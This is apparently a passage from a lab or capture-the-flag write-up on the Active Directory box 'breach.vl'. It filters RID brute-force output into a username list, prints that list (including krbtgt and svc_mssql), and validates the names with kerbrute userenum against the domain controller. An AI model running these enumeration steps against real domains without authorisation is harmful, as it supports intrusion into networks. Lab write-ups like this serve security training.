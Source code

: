 Extract users from the response:
```
cat rid_brute_res.txt | grep -i sidtypeuser | awk '{print $6}' > test.txt
```
In vim:
```
:1,15s/BREACH\\/
```
Final users.txt file:
```
Administrator
Guest
krbtgt
BREACHDC$
Claire.Pope
Julia.Wong
Hilary.Reed
Diana.Pope
Jasmine.Price
George.Williams
Lawrence.Kaur
Jasmine.Slater
Hugh.Watts
Christine.Bruce
svc_mssql
```
Validate the users using `kerbrute`:
```
~/Tools/AD/kerbrute userenum -d breach.vl --dc BREACHDC.breach.vl users.txt
```